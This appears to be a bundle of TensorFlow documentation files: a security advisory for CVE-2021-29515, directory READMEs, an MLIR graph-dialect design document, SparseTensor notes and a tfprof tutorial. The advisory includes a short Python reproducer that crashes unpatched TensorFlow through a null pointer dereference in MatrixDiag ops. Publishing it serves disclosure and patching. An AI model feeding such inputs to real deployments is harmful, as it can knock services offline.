## TFSA-2021-004: Reference binding to null pointer in `MatrixDiag*` ops

### CVE Number
CVE-2021-29515

### Impact
The implementation of [`MatrixDiag*`
operations](https://github.com/tensorflow/tensorflow/blob/4c4f420e68f1cfaf8f4b6e8e3eb857e9e4c3ff33/tensorflow/core/kernels/linalg/matrix_diag_op.cc#L195-L197)
does not validate that the tensor arguments are non-empty:

```cc
      num_rows = context->input(2).flat<int32>()(0);
      num_cols = context->input(3).flat<int32>()(0);
      padding_value = context->input(4).flat<T>()(0);
```

Thus, users can trigger null pointer dereferences if any of the above tensors
are null:

```python
import tensorflow as tf

d = tf.convert_to_tensor([],dtype=tf.float32)
p = tf.convert_to_tensor([],dtype=tf.float32)
tf.raw_ops.MatrixDiagV2(diagonal=d, k=0, num_rows=0, num_cols=0, padding_value=p)
```

Changing from `tf.raw_ops.MatrixDiagV2` to `tf.raw_ops.MatrixDiagV3` still reproduces the issue.

### Patches
We have patched the issue in GitHub commit
[a7116dd3913c4a4afd2a3a938573aa7c785fdfc6](https://github.com/tensorflow/tensorflow/commit/a7116dd3913c4a4afd2a3a938573aa7c785fdfc6).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ye Zhang and Yakun Zhang of Baidu
X-Team.
TensorFlow functions are user-defined callable abstractions built from a graph
of operations, which represents the function body.

This directory contains function-specific code, spanning from the high-level,
tf.function API, down to (and excluding) the graph execution framework.
# TensorFlow Graph Transformations

This directory contains analysis and transformations operating on the
Intermediate Representation (IR) for TensorFlow Graph (see the ir/ folder).

TODO: more details here.

# Distributed TensorFlow

This directory contains the initial open-source implementation of the
distributed TensorFlow runtime, using [gRPC](http://grpc.io) for inter-process
communication.

To learn how to use the distributed runtime to create a TensorFlow cluster,
see the [Distributed TensorFlow](https://www.tensorflow.org/deploy/distributed) How-To.
# TensorFlow

TensorFlow is a computational dataflow graph library.

## Getting started


### Python API example
The following is an example python code to do a simple matrix multiply
of two constants and get the result from a locally-running TensorFlow
process.

First, bring in tensorflow python dependency

//third_party/py/tensorflow

to get the python TensorFlow API.

Then:

```python
import tensorflow as tf

with tf.Session():
  input1 = tf.constant(1.0, shape=[1, 1], name="input1")
  input2 = tf.constant(2.0, shape=[1, 1], name="input2")
  output = tf.matmul(input1, input2)

  # Run graph and fetch the output
  result = output.eval()
  print result
```

### C++ API Example

If you are running TensorFlow locally, link your binary with

//third_party/tensorflow/core

and link in the operation implementations you want to supported, e.g.,

//third_party/tensorflow/core:kernels

An example program to take a GraphDef and run it using TensorFlow
using the C++ Session API:

```c++
#include <memory>
#include <string>
#include <vector>

#include "tensorflow/core/framework/graph.pb.h"
#include "tensorflow/core/public/session.h"
#include "tensorflow/core/framework/tensor.h"

int main(int argc, char** argv) {
  // Construct your graph.
  tensorflow::GraphDef graph = ...;

  // Create a Session running TensorFlow locally in process.
  std::unique_ptr<tensorflow::Session> session(tensorflow::NewSession({}));

  // Initialize the session with the graph.
  tensorflow::Status s = session->Create(graph);
  if (!s.ok()) { ... }

  // Specify the 'feeds' of your network if needed.
  std::vector<std::pair<string, tensorflow::Tensor>> inputs;

  // Run the session, asking for the first output of "my_output".
  std::vector<tensorflow::Tensor> outputs;
  s = session->Run(inputs, {"my_output:0"}, {}, &outputs);
  if (!s.ok()) { ... }

  // Do something with your outputs
  auto output_vector = outputs[0].vec<float>();
  if (output_vector(0) > 0.5) { ... }

  // Close the session.
  session->Close();

  return 0;
}
```

For a more fully-featured C++ example, see
`tensorflow/cc/tutorials/example_trainer.cc`
#  TensorFlow Graph IR

This directory contains the definition of the Intermediate Representation (IR)
for TensorFlow graphs using MLIR.

## Introduction

This directory defined an MLIR dialect, the “TensorFlow Graph dialect”, that
represents accurately TensorFlow graphs. Contrary to the previous TensorFlow
dialect which made some opinionated choices that diverged from GraphDef and
TensorFlow Graph semantics, this dialect embraces TensorFlow Graph as it is. In
particular the concepts of control dependencies, requested device, assigned
device, and node name are all first-class attributes on the MLIR operations in
this dialect.

The main principle that drove the development of this dialect has been to ensure
perfect round-trip and general compatibility with existing TensorFlow semantics,
so that this solution can be deployed by default in any situation where "Graph
Optimization" and Grappler transformations are involved today, regardless of
TensorFlow V1 or V2. This new approach is also made possible by evolutions in
MLIR that allow representing graphs in a way that wasn’t possible before (more
in the [Graph operation design](#graph_operation_design) section below).

## History of Dialects for TensorFlow

MLIR started with a basic structure reflecting LLVM in that it defined a
`Module` containing a list of `Functions`. Each of these was defining a body
constrained to be a Control-Flow Graph (CFG): a list of `Blocks`, each of them
containing a list of `Operations`. A fundamental aspect of the CFG
representation is the notion of “control”: the abstract semantic model considers
that a single `Operation` executes at a given time, and the next `Operation` to
execute is necessarily the one listed immediately after[^1]. The last
`Operation` in a `Block` is a `Terminator`: it decides what is the next `Block`
where the control will be transferred (think of a branch).

When MLIR started, a first dialect -- that we were referring to as “TF control
dialect” -- was developed to model TensorFlow graphs. This dialect supported
control dependencies, but didn’t allow cycles in the graph, which forced some
tricks to model TensorFlow V1 loops and in particular the `NextIteration`
operation. While this dialect enabled some experimentation, it wasn’t seen as
really practical and another dialect was co-existing: the “tf” dialect that
we’re using currently. This dialect was designed before TF2.0
[was released](https://blog.tensorflow.org/2019/09/tensorflow-20-is-now-available.html),
and made strong assumptions about TensorFlow evolving towards a world where
eager execution and function execution become unified and V1 specific constructs
would be deprecated and disappear. As such control dependencies are not
supported and are instead implicit, control-flow V1 ops (such as Switch & Merge)
and deadness aren’t supported[^2], new device placement modelling solutions were
considered. These choices in the model enabled us to write graph transformations
as stateless DAG-to-DAG patterns that can be applied to a subgraph, without
considering the entire graph.

## Motivation

The combination of the TensorFlow and executor dialects allows for importing
most TensorFlow graphs and the TensorFlow dialect has proven enough to implement
the TF/XLA bridge, TFLite converter, and TFRT . However the intent was for
TensorFlow 2.0 to trace TensorFlow functions directly in the TensorFlow dialect,
leaving the executor dialect only as a way to provide limited support for
TensorFlow V1 graphs.

However, the implementation of TensorFlow 2.0 didn't break away from TensorFlow
V1 entirely, instead TensorFlow functions are wrapped above TensorFlow V1 and
expose a leaky abstraction over the classical graph. As a result, the TensorFlow
dialect never got in a position to be enabled by default in TensorFlow. In
particular there are many subtle way in which TensorFlow functions diverges from
the sequential eager interpretation. For example the following pattern has been
recommended to users who intended to call a function `bar` knowing that the
first argument wasn’t necessary if they only used the first result.

```
  @tf.function
  def foo(z):
    x = tf.Placeholder(tf.int32)
    y, _ = bar(x, z)
    return y
```

The use of a placeholder would throw an exception in eager mode, but “works” in
graph mode as long as inlining and pruning ensure the placeholder is removed
before execution.

Other cases involve the need for control dependencies beyond what the
auto-control-dependency tracking offers. For example the
[tf.recompute\_grad](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/ops/custom_gradient.py#L497)
creates control-dependencies on non-side-effecting ops to have a finer grain
control of memory usage.

Finally, the error modelling in TensorFlow can also be surprising. While in
eager op-by-op mode the execution is interrupted as soon as an error occurs,
`tf.function` tracing does not consider error handling as side-effecting
(otherwise it would have to add a control dependency between every node!) and as
such a program like:

```
@tf.function
def foo(x, y, variable):
   b = tf.matmul(x, y)
   variable.assign(1.0)
   return b
```

Does not guarantee that the assignment to the variable won’t occur if an error
occurs while processing the matmul, so calling:

```
foo(1., 2., variable)
```

Throws an exception because `tf.matmul` expects rank-2 tensors, but the variable
may or may not have been assigned. As such a user may want to opt-in a safer
behavior for their function:

```
@tf.function
def foo(x, y, variable):
   b = tf.matmul(x, y)
   with tf.control_dependencies([b]):
     variable.assign(1.0)
   return b
```

However this control dependency cannot be modelled in the TensorFlow dialect: it
will be just dropped! There is no solution today to prevent the variable
assignment to be executed ahead of the `matmul` in the TensorFlow Dialect.

While many of these cases could be modeled with different constructs at the
source level, this would be a major overhaul of TensorFlow itself, and more
importantly its ecosystem. Instead, we recognize that the TensorFlow dialect as
it exists today cannot support all of these use-cases and it prevented MLIR from
providing a general graph transformation solution for TensorFlow, contributing
to more fragmentation instead of reducing it as promised.

The rest of this document describe how this new dialect follows a more pragmatic
approach to enable MLIR deployment in TensorFlow.

## Design

This new dialect intends to allow us to replace Grappler and existing graph
transformations, for TensorFlow V1 and V2 without constraints. As such the main
principle is to support perfect roundtrip between TensorFlow Graph/GraphDef and
MLIR.

### General Operations

An individual TensorFlow `NodeDef` is translated into an individual MLIR
operation using the following form:

```
%AddV2, %ctl = tfg.AddV2(%placeholder, %placeholder_1) [%ctl_1, %ctl_2]
                     device("GPU") assigned_device("TPU") name("add")
                     {some_attribute = "some attr!"}
                     : (tensor<*xi32>, tensor<*xi32>) -> (tensor<*xi32>)
```

*   Each operation returns an optional variadic number of tensors as well as a
    control token to express potential control dependencies.
*   The node type is carried in the operation mnemonic.
*   The list of regular inputs is in-between parentheses.
*   Optional control dependencies are exposed after the regular inputs and
    printed between square brackets.
*   The pre-placement “requested device” as well as the post-placement “assigned
    device” information are preserved.
*   The node name is carried as a first-class attribute.
*   Optional “op specific” attributes can be listed between curly brackets.
*   Finally the type signature follows, omitting the control dependencies.

This structure allows for a perfect round-trip to NodeDef, while still being
ergonomic when manipulating it in MLIR (compared to the `tf\_executor` dialect
for example). The tradeoff we are making here is that we preserve all
attributes, including the “derived” ones[^3], which creates some amount of
redundancy with the signature. We may consider pruning these redundant
attributes in the future in the same way as we do in the TensorFlow dialect.

### Graph Operation

A structural operation is introduced as a container: `tfg.graph` acts as a bag
of unordered TensorFlow operations, and carries a “version” attribute that
corresponds to the
[VersionDef](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/framework/versions.proto)
present in GraphDef:

```
tfg.graph #tfg.version<producer = 42, min_consumer = 33> {
  %arg0, %ctl_0 = tfg.placeholder() : () -> (tensor<*xi32>)
  %add, %ctl_1 = tfg.AddV2(%arg0, %arg1)
                    : (tensor<*xi32>, tensor<*xi32>) -> (tensor<*xi32>)
  %arg1, %ctl_2 = tfg.placeholder() : () -> (tensor<*xi32>)
}
```

Note that the `AddV2` operation is using the result of a `placeholder` operation
that is defined later in the list. This wasn’t possible in MLIR 2 years ago when
the TensorFlow dialect was designed. It was actually
[attempted to allow such unordered semantics](https://groups.google.com/a/tensorflow.org/g/mlir/c/gPQFIy9XpVw/m/hfxmBGF8AQAJ)
and break away from the CFG-centric representation but we couldn’t reach a
consensus, and some key members of the team believed that a departure from
CFG/SSA would limit the reusability of many algorithms. On the other hand, this
choice prevented us to design a graph dialect that can just replace TensorFlow
Graph structure as-is. Since then MLIR evolved to become more general and this
feature is now available (it was motivated by the
[support for HW synthesis tools](https://llvm.discourse.group/t/rfc-allowing-dialects-to-relax-the-ssa-dominance-condition/833)).
Another recent development that made it also more friendly is the
[removal of the requirement for terminators](https://llvm.discourse.group/t/rfc-making-terminator-optional-for-single-block-graph-regions/2997):
the `tfg.graph` operation above contains a single block listing operations, and
a terminator does not have any role to play. Finally a Dialect can now
[acts as fallback for OpInterfaces](https://llvm.discourse.group/t/rfc-dialect-fallback-for-opinterface/3074),
which allows us to reuse more of the TensorFlow registry to provide information
to MLIR passes about TensorFlow operation without having to register them with
MLIR in the first place.

The `tfg.graph` operation round-trips almost perfectly to
[Graph](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/graph/graph.h#L504),
with the exception of the `Function Library`, which I address below.

### Function Library

Functions in TensorFlow are stored as
[FunctionDef](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/framework/function.proto),
which has a signature, holds attributes, identifies argument and returned
values, and finally contains a list of nodes for its body. While on the surface
this `repeated NodeDef node_def` field looks identical to the body of
[GraphDef](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/framework/graph.proto#L17),
there are fundamental differences in the representation, and in particular the
format the edges are represented is different.

To understand these differences, it is important to realize that a key aspect of
`FunctionsDef` is that they are stored uninstantiated, and can be considered in
a similar way to a C++ template function. The signature is actually an `OpDef`,
and just like any regular TensorFlow operation the types of the arguments and
the results are encoded and constrained with attributes. These attributes are
only provided or inferred based on the function’s use: the call-site is
responsible for instantiating a function before it’s body can be represented as
a Graph. Because of this, the body of an uninstantiated function is modeled
differently than Graph body:

```
  tfg.func generic @foo(%arg0 : !tfg.tensor {tfg.name = "input"},
                        %arg1 : !tfg.tensor {tfg.name = "another_input"})
      -> (!tfg.tensor {tfg.name = "result1"},
          !tfg.tensor {tfg.name = "result2"})
      attributes {description = "function foo"} {
    %Greater, %ctl_0 = tfg.Greater(%arg0, %arg1) name("Greater")
    %G_z = tfg.get_result(%Greater) "z" : 0
    %Switch, %ctl_1 = tfg.Switch(%G_z, %G_z) name("cond/Switch")
    %s_true = tfg.get_result %Switch "output_true" : 0
    %s_false = tfg.get_result %Switch "output_false" : 0
    tfg.return(%s_true, %s_false) [%ctl_0]
  }
```

Note how the tensor types `!tfg.tensor` are opaque, and every operation returns
a single tensor output and a control token. The tensor output is then unpacked
by looking up individual results by name. This is particularly visible with the
`Switch` operation where the two results are accessed using `tfg.get_result`
looking them up by name `output_true:0` and `output_false:0`. This is required
because the OpDef can define the number of output based on the attribute present
on the NodeDef, and these attributes can in turn be dependent on the attributes
added on the function during instantiation (you can read more about it in the
[description of the placeholder attribute value](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/framework/attr_value.proto#L48-L55)).

Post-instantiation, a function body is similar to the one of a graph:

```
  tfg.func @foo(%arg0 : tensor<*xf32> {tfg.name = "input"},
                %arg1 : tensor<*xf32> {tfg.name = "another_input"})
      -> (tensor<*xi1> {tfg.name = "result1"},
          tensor<*xi1> {tfg.name = "result2"})
      attributes {description = "function foo"} {
    %Greater, %ctl_0 = tfg.Greater(%arg0, %arg1) [%arg1.ctl] name("Greater")
                          : (tensor<*xf32>, tensor<*xf32>) -> tensor<*xi1>
    %Switch:2, %ctl_1 = tfg.Switch(%Greater, %Greater) name("cond/Switch")
                          : (tensor<*xi1>, tensor<*xi1>) -> tensor<*xi1>
   tfg.return(%Switch#0, %Switch#1) [%ctl_0]
  }
```

The operations aren’t ordered, except for the `tfg.return` which is a terminator
and must be the last operation. The only remaining difference with a graph is in
the handling of the function signature (arguments and returned values), and
attributes.

There is one aspect of the modelling worth mentioning from the MLIR point of
view: FunctionDef allows for nodes in a graph to express input control
dependencies from function arguments. However in MLIR you need an actual
[SSA](https://en.wikipedia.org/wiki/Static_single_assignment_form) value to add
an edge between two operations. These values are typed and this is why
operations define a control token (like `%ctl_0`). We apply the same recipe for
arguments and for each of them we define a control token. We omit these “shadow
arguments” from the textual form, but in-memory the MLIR function has really 4
arguments:

```
 tfg.func @foo(%arg0 : tensor<*xf32> {tfg.name = "input"}, %arg0.ctl : !tfg.control
      %arg1 : tensor<*xf32> {tfg.name = "another_input"}, %arg1.ctl : !tfg.control)
      -> (tensor<*xi1> {tfg.name = "result1"},
          tensor<*xi1> {tfg.name = "result2"})
      attributes {description = "function foo"} {
   ...
```

The convention is that callers are only exposed to the non-control input
(`%arg0` and `%arg1`) while the control tokens are only intended to be visible
and used in the body. This makes it very aligned with how TensorFlow works.
Inside the body, values for the control dependencies on the arguments are
available with a `.ctl` suffix (i.e. `%arg0.ctl` and `%arg1.ctl`).

### Saved Model

The basic blocks above are enough to model `GraphDef`, but not the entirety of
SavedModel. However, most of the use cases that we’re targeting right now are in
the scope of the existing GraphOptimization and Grappler APIs, which aren’t
really coupled to SavedModel. The user can load a SavedModel independently of
MLIR and invoke MLIR transformations on a Function or Graph from there. There is
also already a dialect to model the specific aspects of SavedModel, it is
currently wrapping around the TensorFlow executor dialect and the TensorFlow
dialect and we may look into integrating it with the `tfg` dialect in the
future. For these reasons, we mostly leave out modeling the Saved Model for
future work right now.

### Future Enhancements

Functional control-flow is modeled with nodes in the graph invoking functions in
the library. MLIR supports `region`s, which is a concept that allows attaching
subgraphs directly inside a graph, making it more friendly to optimizations. For
example a conditional operation can represent the two branches subgraph in the
TensorFlow dialect directly as follow:

```
  %0, %1, %2 = "tf.IfRegion"(%arg0) ({
     %t0 = "tf.Abs"(%arg1) : (tensor<2xf32>) -> tensor<2xf32>
     %t1 = "tf.Acos"(%arg1) : (tensor<2xf32>) -> tensor<2xf32>
     %t2 = "tf.Acosh"(%arg1) : (tensor<2xf32>) -> tensor<2xf32>
    "tf.Yield"(%t0, %t1, %t2) : (tensor<2xf32>, tensor<2xf32>, tensor<2xf32>) -> ()
  }, {
     %e0 = "tf.Neg"(%arg1) : (tensor<2xf32>) -> tensor<2xf32>
     %e1 = "tf.Relu"(%arg1) : (tensor<2xf32>) -> tensor<2xf32>
     %e2 = "tf.Sin"(%arg1) : (tensor<2xf32>) -> tensor<2xf32>
     "tf.Yield"(%e0, %e1, %e2) : (tensor<2xf32>, tensor<2xf32>, tensor<2xf32>)
  }): (tensor<i1>) -> (tensor<2xf32>, tensor<2xf32>, tensor<2xf32>)
  %3 = "tf.Add"(%0, %1) : (tensor<2xf32>, tensor<2xf32>) -> tensor<2xf32>
  %4 = "tf.Add"(%2, %3) : (tensor<2xf32>, tensor<2xf32>) -> tensor<2xf32>
```

## Integration

MLIR transformations in this dialect will operate on a module that will contain
at most one `graph` operation as well as a list of functions. This interface
will make such transformations suitable for fit within Grappler or as
GraphOptimization interchangeably.

Instead of a flat graph, an entry function will be provided when feeds/fetches
are available for the main graph (PRE_PLACEMENT graph optimizations execute in
Session before feeds/fetches are provided).

## FAQ

### Why not just use the TensorFlow Executor Dialect?

The executor dialect wasn’t designed to write transformation: it is designed as
a wrapper around the TensorFlow dialect: the intent was for it to be a stepping
stone to integrate MLIR and TensorFlow, and then disappear when TensorFlow V1
graphs would be deprecated. This new dialect embraces TensorFlow as it is
instead of as I wish it would be.

In particular the executor dialect represents each TensorFlow node as an
isolated “subgraph” nested under an “island” operation. This requires 3
operations and an extra region for each TensorFlow node, which is quite
inefficient in memory as well as requiring extra indirection when pattern
matching or updating nodes in the graph.

### What happens to the existing TensorFlow Dialects?

The existing TensorFlow dialect is suitable for representing a large subset of
TensorFlow programs (like models that intends to convert to TFLite, or XLA), and
for such cases we will continue to use it.

### What happens to the existing TensorFlow Executor Dialect?

This new TensorFlow Graph Dialect could be used to replace the Executor Dialect
as the standalone staging importing format. Importing from GraphDef/Graph would
always go through the TensorFlow Graph Dialect before using some clustering or
promotion algorithms to raise some subgraphs to the TensorFlow Dialect, just
like we do now to cluster islands operations in TensorFlow Executor Dialect.
The details of such mechanisms are left for future work.

<!-- Footnotes -->

[^1]: While the semantic model is sequential, this does not prevent an
    implementation to execute operation in parallel when proven safe. This is
    similar to how a superscalar CPU involves implicit parallelism. For
    example when mapping the TensorFlow dialect to TFRT, only side-effecting
    operations (Variable accesses for example) are sequenced.
[^2]: One of the first tools built with this was the TF->TFlite converter
    (replacing TOCO). Since V1 control-flow isn’t supported on TFLite this
    wasn’t a limitation.
[^3]: Derived attributes is a concept used in the TensorFlow dialect: since MLIR
    models type and shape information on each individual result produced by an
    operation, some attributes that are inserted for the sole purpose of
    typing are redundant and eliminated in MLIR.
SparseTensor
============

Sparse Tensors are stored as two dense tensors and a shape:

*  `indices`: a `brain::Tensor` storing a matrix, typically `int64`
*  `values`: a `brain::Tensor` storing a vector with values of type T.
*  `shape`: a `TensorShape` storing the bounds of the underlying tensor
*  `order`: (optional) a `gtl::InlinedVector<int64,8>` with the dimensions
            along which the indices are ordered.

Let

    ix = indices.matrix<int64>()
    vals = values.vec<T>()

The shape of `ix` is `N x NDIMS`, and each row corresponds to the
index of a single element of the sparse tensor.

The length of `vals` must be `N`, and `vals(i)` corresponds to the
value with index `ix(i,:)`.

Shape must be a `TensorShape` with `dims() == NDIMS`.
The shape is the full shape of the dense tensor these indices
represent.

To be specific, the representation (pseudocode) is:

    tensor[ix[i,:]] == vals[i] for i = 0, ..., N-1

Ordering
--------

Indices need not be provided in order.  For example, the following
index matrix is ordered according to dimension order `{0, 1, 2}`.

    [0 0 1]
    [0 1 1]
    [2 0 2]

However, you can provide an unordered version:

    [2 0 2]
    [0 0 1]
    [0 1 1]

If the SparseTensor is constructed without a provided order, then a
the default order is `{-1, ..., -1}`.  Certain operations will fail or crash
when the order is not provided.

Resorting the SparseTensor in-place (which resorts the underlying index and
values tensors in-place) will update the order.  The cost of reordering the
matrix is `O(N*log(N))`, and requires `O(N)` additional temporary space to store
a reordering index.  If the default order is not specified and reordering is not
performed, the following will happen:

*  `group()` will **raise an assertion failure**
*  `IndicesValid()` will **raise an assertion failure**

To update the internal index ordering after construction, call
`Reorder<T>()` via, e.g., `Reorder<T>({0,1,2})`.
After this step, all the above methods should work correctly.

The method `IndicesValid()` checks to make sure:

*  `0 <= ix(i, d) < shape.dim_size(d)`
*  indices do not repeat
*  indices are in order

Iterating
---------

### group({grouping dims})

*  provides an iterator that groups entries according to
   dimensions you care about
*  may require a sort if your data isn't presorted in a way that's
   compatible with grouping_dims
*  for each group, returns the group index (values of the group
   dims for this iteration), the subset of indices in this group,
   and the subset of values in this group.  these are lazy outputs
   so to read them individually, copy them as per the example
   below.

#### **NOTE**
`group({dim0, ..., dimk})` will **raise an assertion failure** if the
order of the SparseTensor does not match the dimensions you wish to group by.
You must either have your indices in the correct order and construct the
SparseTensor with

    order = {dim0, ..., dimk, ...}

or call

    Reorder<T>({dim0, .., dimk, ...})

to sort the SparseTensor before grouping.

Example of grouping:

    Tensor indices(DT_INT64, TensorShape({N, NDIMS});
    Tensor values(DT_STRING, TensorShape({N});
    TensorShape shape({dim0,...});
    SparseTensor sp(indices, vals, shape);
    sp.Reorder<tstring>({1, 2, 0, 3, ...}); // Must provide NDIMS dims.
    // group according to dims 1 and 2
    for (const auto& g : sp.group({1, 2})) {
      cout << "vals of ix[:, 1,2] for this group: "
           << g.group()[0] << ", " << g.group()[1];
      cout << "full indices of group:\n" << g.indices();
      cout << "values of group:\n" << g.values();

      TTypes<int64>::UnalignedMatrix g_ix = g.indices();
      TTypes<tstring>::UnalignedVec g_v = g.values();
      ASSERT(g_ix.dimension(0) == g_v.size());  // number of elements match.
    }


ToDense
--------

Converts sparse tensor to dense.  You must provide a pointer to the
dense tensor (preallocated).  `ToDense()` will optionally
preinitialize the tensor with zeros.

Shape checking is performed, as is boundary checking.

    Tensor indices(DT_INT64, TensorShape({N, NDIMS});
    Tensor values(DT_STRING, TensorShape({N});
    TensorShape shape({dim0,...});
    SparseTensor sp(indices, vals, shape);
    ASSERT(sp.IndicesValid());  // checks ordering & index bounds.

    Tensor dense(DT_STRING, shape);
    // initialize other indices to zero.  copy.
    ASSERT(sp.ToDense<tstring>(&dense, true));


Concat
--------

Concatenates multiple SparseTensors and returns a new SparseTensor.
This concatenation is with respect to the "dense" versions of these
SparseTensors.  Concatenation is performed along dimension order[0]
of all tensors.  As a result, shape[order[0]] may differ across
the inputs, but shape[d] for d != order[0] must match across all inputs.

We call order[0] the **primary dimension**.

**Prerequisites**

*  The inputs' ranks must all match.
*  The inputs' order[0] must all match.
*  The inputs' shapes must all match except for dimension order[0].
*  The inputs' values must all be of the same type.

If any of these are false, concat will die with an assertion failure.

Example:
Concatenate two sparse matrices along columns.

Matrix 1:

    [0 0 1]
    [2 0 0]
    [3 0 4]

Matrix 2:

    [0 0 0 0 0]
    [0 1 0 0 0]
    [2 0 0 1 0]

Concatenated Matrix:

    [0 0 1 0 0 0 0 0]
    [2 0 0 0 1 0 0 0]
    [3 0 4 2 0 0 1 0]

Expected input shapes, orders, and `nnz()`:

    shape_1 = TensorShape({3, 3})
    shape_2 = TensorShape({3, 8})
    order_1 = {1, 0}  // primary order is 1, columns
    order_2 = {1, 0}  // primary order is 1, must match
    nnz_1 = 4
    nnz_2 = 3

Output shapes and orders:

    conc_shape = TensorShape({3, 11})  // primary dim increased, others same
    conc_order = {1, 0}  // Orders match along all inputs
    conc_nnz = 7  // Sum of nonzeros of inputs

Coding Example:

    Tensor ix1(DT_INT64, TensorShape({N1, 3});
    Tensor vals1(DT_STRING, TensorShape({N1, 3});
    Tensor ix2(DT_INT64, TensorShape({N2, 3});
    Tensor vals2(DT_STRING, TensorShape({N2, 3});
    Tensor ix3(DT_INT64, TensorShape({N3, 3});
    Tensor vals3(DT_STRING, TensorShape({N3, 3});

    SparseTensor st1(ix1, vals1, TensorShape({10, 20, 5}), {1, 0, 2});
    SparseTensor st2(ix2, vals2, TensorShape({10, 10, 5}), {1, 0, 2});
    // For kicks, st3 indices are out of order, but order[0] matches so we
    // can still concatenate along this dimension.
    SparseTensor st3(ix3, vals3, TensorShape({10, 30, 5}), {1, 2, 0});

    SparseTensor conc = SparseTensor::Concat<string>({st1, st2, st3});
    Tensor ix_conc = conc.indices();
    Tensor vals_conc = conc.values();
    EXPECT_EQ(conc.nnz(), st1.nnz() + st2.nnz() + st3.nnz());
    EXPECT_EQ(conc.Shape(), TensorShape({10, 60, 5}));
    EXPECT_EQ(conc.Order(), {-1, -1, -1});

    // Reorder st3 so all input tensors have the exact same orders.
    st3.Reorder<tstring>({1, 0, 2});
    SparseTensor conc2 = SparseTensor::Concat<string>({st1, st2, st3});
    EXPECT_EQ(conc2.Order(), {1, 0, 2});
    // All indices' orders matched, so output is in order.
    EXPECT_TRUE(conc2.IndicesValid());
This folder contains the ApiDef proto definitions of TensorFlow operations.

The canonical source of documentation for these operations can be found in
the base_api/ directory.
# TensorFlow Base libraries.
  This package contains the following libraries:
    - Platform dependent libraries that require different implementations
      across different OSs or environments.
    - STL replacement libraries rest of TensorFlow should depend on.

  The libraries in this package are not allowed to have ANY dependencies
  to any TensorFlow code outside this package.
## Command Line Interface Tutorials

* [Command Line Inputs](#command-line-inputs)
* [Start `tfprof`](#start-tfprof)
* [Examples](#examples)
  * [Profile Python Time](#profile-python-time)
  * [Profile Graph Time](#profile-graph-time)
  * [Profile Checkpoint Value](#profile-checkpoint-value)
  * [Profile Model Parameter](#profile-model-parameter)
  * [Profile Device Placement](#profile-device-placement)
  * [Define Customized Operation Type](#define-customized-operation-type)
  * [Non-interactive Mode](#non-interactive-mode)


### Command Line Inputs

tfprof command line tool uses the following input:

<b>--profile_path:</b> A ProfileProto binary proto file.
See QuickStart on generating the file.

<b>THE OLD WAY BELOW IS DEPRECATED:</b>

<b>--graph_path:</b> GraphDef proto file (optional in eager execution).
Used to build in-memory
data structure of the model. For example, graph.pbtxt written by tf.Supervisor
can be passed to --graph_path. You can also easily get GraphDef using
tf.get_default_graph().as_graph_def(add_shapes=True) or other API.

<b>--run_meta_path:</b> RunMetadata proto file (optional).
Used to get the memory consumption and execution time of
each op of the model.

The following code snippet writes a RunMetadata file:

```python
run_options = config_pb2.RunOptions(trace_level=config_pb2.RunOptions.FULL_TRACE)
run_metadata = config_pb2.RunMetadata()
_ = self._sess.run(..., options=run_options, run_metadata=run_metadata)
with tf.gfile.Open(os.path.join(output_dir, "run_meta"), "w") as f:
  f.write(run_metadata.SerializeToString())
```

<b>--op_log_path:</b>
tensorflow.tfprof.OpLogProto (optional). A proto used to provide extra operation
information. 1) float operations. 2) code traces. 3) define customized operation
type for `-account_type_regexes` option.

The following code snippet writes a OpLogProto file.

```python
tf.profiler.write_op_log(graph, log_dir, op_log=None)
```

<b>--checkpoint_path:</b> TensorFlow checkpoint (optional).
It defines _checkpoint_variable op type. It also provides checkpointed tensors' values.
Note: this feature is not well maintained now.


### Start `tfprof`

#### Build `tfprof`

```shell
# Build the tool.
bazel build --config opt tensorflow/core/profiler:profiler

# Help information, including detail 'option' instructions.
bazel-bin/tensorflow/core/profiler/profiler help
```

#### Start `tfprof` Interactive Mode
```shell
# The following commands will start tfprof interactive mode.
#
# Recommended:
#
# The file contains the binary string of ProfileProto.
# It contains all needed information in one file.
bazel-bin/tensorflow/core/profiler/profiler \
    --profile_path=profile_xxx
#
# Alternatively, user can pass separate files.
#
# --graph_path contains the model architecture and tensor shapes.
# --run_meta_path contains the memory and time information.
# --op_log_path contains float operation and code traces.
# --checkpoint_path contains the model checkpoint data.
#
# Only includes model architecture, parameters and shapes.
bazel-bin/tensorflow/core/profiler/profiler \
    --graph_path=graph.pbtxt

# For profiling eager execution, user can only specify run_meta_path
# and profile execution info of each operation.
bazel-bin/tensorflow/core/profiler/profiler \
    --run_meta_path=run_meta
#
# Additionally profile ops memory and timing.
bazel-bin/tensorflow/core/profiler/profiler \
    --graph_path=graph.pbtxt \
    --run_meta_path=run_meta \
#
# tfprof_log is used to define customized op types, float ops and code traces.
# Use tfprof_logger.write_op_log() to create tfprof_log.
bazel-bin/tensorflow/core/profiler/profiler \
    --graph_path=graph.pbtxt \
    --run_meta_path=run_meta \
    --op_log_path=tfprof_log \
#
# Additionally profile checkpoint statistics and values.
# Use '-account_type_regexes _checkpoint_variables' to select
# checkpoint tensors.
bazel-bin/tensorflow/core/profiler/profiler \
    --graph_path=graph.pbtxt \
    --run_meta_path=run_meta \
    --op_log_path=tfprof_log \
    --checkpoint_path=model.ckpt
```

#### Start `tfprof` Non-interactive Mode.

```python
# Runs tfprof in one-shot.
bazel-bin/tensorflow/core/profiler/profiler scope \
    --graph_path=graph.pbtxt \
    --max_depth=3
```

#### Press enter to show the default options

Refer to [Options](options.md) for option instructions.

```shell
tfprof>
-max_depth                  4
-min_bytes                  0
-min_micros                 0
-min_params                 0
-min_float_ops              0
-min_occurrence             0
-step                       -1
-order_by                   name
-account_type_regexes       Variable,VariableV2
-start_name_regexes         .*
-trim_name_regexes
-show_name_regexes          .*
-hide_name_regexes          IsVariableInitialized_[0-9]+,save\/.*,^zeros[0-9_]*
-account_displayed_op_only  false
# supported select fields. Availability depends on --[run_meta|checkpoint|op_log]_path.
